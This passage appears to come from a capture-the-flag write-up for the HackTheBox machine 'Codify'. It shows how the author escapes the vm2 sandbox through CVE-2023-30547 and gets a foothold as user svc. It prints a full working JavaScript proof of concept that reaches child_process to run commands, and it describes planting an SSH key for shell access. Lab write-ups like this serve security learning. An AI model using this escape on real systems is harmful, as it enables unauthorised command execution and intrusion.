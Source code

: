 The About Us page indicated that while Codify sandboxes code execution, it's not completely bulletproof.

After some research into vm2, I found a recently disclosed Sandbox Escape vulnerability in [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m) that could be leveraged to break out of the sandbox.

I tested a PoC exploit code in the textarea that abuses Proxy and Error objects to access the main process and execute arbitrary commands.

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```

This exploit allowed me to execute commands on the underlying system. I used it to add my SSH public key to ~/.ssh/authorized_keys and gain shell access as the current user, which was **svc**.
![](../../../assets/htb/codify/adding_pubkey.png)

The vulnerable vm2 version along with sandbox escape primitives were key to gaining an initial foothold on the Codify server.

I SSH'd into the server as user svc:

```
ssh svc@codify.htb -i id_rsa
```

## Privilege Escalation to Joshua
After gaining initial access to the Codify server as the svc user, I began searching for ways to escalate privileges and obtain access to the joshua user account, which I knew was there while enumeration the server.
